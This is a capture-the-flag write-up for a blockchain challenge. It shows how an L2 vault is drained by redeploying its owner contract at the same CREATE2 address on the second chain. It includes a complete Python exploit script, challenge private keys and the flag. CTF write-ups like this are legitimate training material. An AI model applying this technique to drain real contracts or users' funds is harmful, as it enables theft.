






**Platform:**  CyberEDU
**Category:**  Misc
**Difficulty:**  Medium
**Date:** 2026-09-19  
**Tags:** misc, dctf2026 quals

---

## Overview
Our 'clients' use Arbitrum as a layer 2 solution. They deployed some ETH inside one of the contracts, to optimize costs and security. Get in the vault, take the money, get out. Entry is arbitrary.

This instance runs **two independent chains**, an L1 (`/rpc/l1`) and an L2 (`/rpc/l2`), standing in for Ethereum and Arbitrum. A relayer process genuinely watches L1 and relays messages to L2, exactly like a real Arbitrum sequencer would. This is done in order to simulate an Arbitrum instance with proper behaviour, just as in the real world.

You are given the source code, matching exactly what's deployed on each chain. On the right are the deployed contract addresses, including the player's details (address and private key). To make things easier, the player's details and setup scripts have the same address on both chains. To interact with either chain you will use `http://HOST:IP/rpc/LAYER`. Replace `LAYER` with either **l1** or **l2**, depending on the chain. (Arbitrum is l2).

A vault was created on the Arbitrum chain and funds have been moved there. **Take all of it.**

The vault must have a balance of `0`.

This is what the challange authors provide

We were also provided wit the addresses of each entity:

```
{
  "factory_address": "0xB4ebc94a1B46B9b958d1b2A163f894F0a28De159",
  "inbox_address": "0x4a6bBbb4f21808DdF718F24754a2bC5c92F50d95",
  "player_address": "0xf23d3930cDB46E5C2082E74427Cdc236F758417D",
  "player_key": "0x22ef3e375e1424bf7669b513ed2da98f6c72db38adde02cc0f34529dd0e9ec4e",
  "saylor_address": "0x8054b6A618636CC6F877ec97381b5778f055ff9f",
  "setup_address": "0x01333fd7f97D416317c032975CDD6F94eD284E7e",
  "vault_address": "0xEfE5669580C60ecDbd31397c2A70c2B8F3931656"
}
```
## Reconnaissance

First we look trough the code provided, since we want to get the value of the vault to 0, we need to search for the function that removes credits from the balance. Looking in the `Vault.sol` we can see that the function `execute()` is the only one that allows the witdrawal of funds and has a simple check only `require(msg.sender == owner, "not the owner");` meaning that one who can withdraw funds from this vault is the owner of it



Lets find the owner's address



We can easily see that the owners address matches the saylor address, meaning that only the saylor can empty the vault. At this point we may think that the challange got easy, everything we have to do is to send a message from L1 to L2 from the Saylor but not really, in `Saylor.sol` there is a function named `relay()` which calls `createRetryableTicket()` 
and `Inbox.sol` verifies the origin of the caller



The author also tells us that `A relayer process genuinely watches L1 and relays messages to L2, exactly like a real Arbitrum sequencer would.` so if a call comes from L1, atrbitrum applies a security measure called `address aliasing`, so if we were to call `saylor.relay()` on L1, on L2 the message would have arrived with an aliased address, but the `Vault.owner` was set to an unaliased address, further more any call from L1 to L2 would've failed, looking into `SetupL1.sol` we can see that `Saylor` was not intialized with `new` and was deployed with the help of `deploy` function from `Factory.sol` and inside there is the main logic how the address is computed



The formula translating to: keccak(0xff + deployer address + salt + keccak256(initialization bytecode)). So the resulting address depends only on the address of the factory (deployer), a salt and the hash of the initialization bytecode. The address of the factory is the same on both chains



We want to know what the owner address on L2 chain holds, so for this we will query it



Empty, meaning that there is no contract deployed there, so we can run directly on L2 chain `factory.deploy()` in order to make the contract at the owner address. What we need to obtain is the salt and the bytecode. The salt can be easily obtained querying L1 because its a public atribute in `SetupL1.sol`, the bytecode is embedded directly in the creation transaction of `SetupL1` on L1. Below is the python code used in getting the flag:

```python
import requests
from eth_abi import encode
from web3 import Web3

rpcl1 = "http://34.179.130.68:30148/rpc/l1"
rpcl2 = "http://34.179.130.68:30148/rpc/l2"
flagurl = "http://34.179.130.68:30148/flag"

w3l1 = Web3(Web3.HTTPProvider(rpcl1))
w3l2 = Web3(Web3.HTTPProvider(rpcl2))

player_address = "0x78ec37251ae819A2cB4A62b56BE762bE00f154BD"
player_key = ("0x75228e866f32ff27c2d661cbcb42c874d6aefd64959e051886083e8be13a6ba0")

factory_address = "0xB4ebc94a1B46B9b958d1b2A163f894F0a28De159"
vault_address = "0xEfE5669580C60ecDbd31397c2A70c2B8F3931656"
saylor_target = "0x8054b6A618636CC6F877ec97381b5778f055ff9f"
setup_address = "0x01333fd7f97D416317c032975CDD6F94eD284E7e"

def solve():
    if w3l2.eth.get_balance(player_address) == 0:
        w3l2.eth.send_transaction({"from": w3l2.eth.accounts[0], "to": player_address,"value": Web3.to_wei(1, "ether"),})
    print(f"initial vault balance on L2: {w3l2.eth.get_balance(vault_address)}")
    print(f"initial player balance on L2: {w3l2.eth.get_balance(player_address)}")

    if w3l2.eth.get_balance(vault_address) == 0:
        print("vault is empty")
    else:
        salt_sel = w3l1.keccak(text="salt()")[:4]
        salt = w3l1.eth.call({"to": setup_address, "data": salt_sel})
        tx2 = w3l1.eth.get_transaction("ef375ff29b699a6c38a9f3862df405663e192abb165fbed8b8b38e157cf62c5b")
        saylor_bytecode = tx2.input[4804 : 4804 + 1760]
        code_on_l2 = w3l2.eth.get_code(saylor_target)
        if len(code_on_l2) <= 2:
            print("deploying saylor on L2")
            deploy_sel = w3l2.keccak(text="deploy(bytes,bytes32)")[:4]
            deploy_data = deploy_sel + encode(["bytes", "bytes32"], [saylor_bytecode, salt])
            nonce = w3l2.eth.get_transaction_count(player_address)
            tx_deploy = {
                "from": player_address,
                "to": factory_address,
                "data": deploy_data,
                "nonce": nonce,
                "gas": 3000000,
                "gasPrice": w3l2.eth.gas_price,
                "chainId": w3l2.eth.chain_id,
            }
            signed = w3l2.eth.account.sign_transaction(tx_deploy, player_key)
            tx_hash = w3l2.eth.send_raw_transaction(signed.raw_transaction)
            w3l2.eth.wait_for_transaction_receipt(tx_hash)
            print(f"saylor deployed on L2 at: {saylor_target}")
        execute_sel = w3l2.keccak(text="execute(address,uint256,bytes)")[:4]
        execute_data = execute_sel + encode(["address", "uint256", "bytes"],[player_address, Web3.to_wei(5, "ether"), b""])
        call_sel = w3l2.keccak(text="call(address,bytes)")[:4]
        call_data = call_sel + encode(["address", "bytes"], [vault_address, execute_data])
        nonce = w3l2.eth.get_transaction_count(player_address)
        tx_call = {
            "from": player_address,
            "to": saylor_target,
            "data": call_data,
            "nonce": nonce,
            "gas": 1000000,
            "gasPrice": w3l2.eth.gas_price,
            "chainId": w3l2.eth.chain_id,
        }
        signed2 = w3l2.eth.account.sign_transaction(tx_call, player_key)
        tx_hash2 = w3l2.eth.send_raw_transaction(signed2.raw_transaction)
        w3l2.eth.wait_for_transaction_receipt(tx_hash2)
        print(f"final vault balance: {w3l2.eth.get_balance(vault_address)}")
        print(f"final player balance: {w3l2.eth.get_balance(player_address)}")
    resp = requests.get(flagurl)
    print(f"\nflag: {resp.text.strip()}\n")


if __name__ == "__main__":
    solve()
```
## Flag / Root
`DCTF{b4s3_l4y3r_15_4lw4y5_b0r1ng_th4t5_l1f3}`
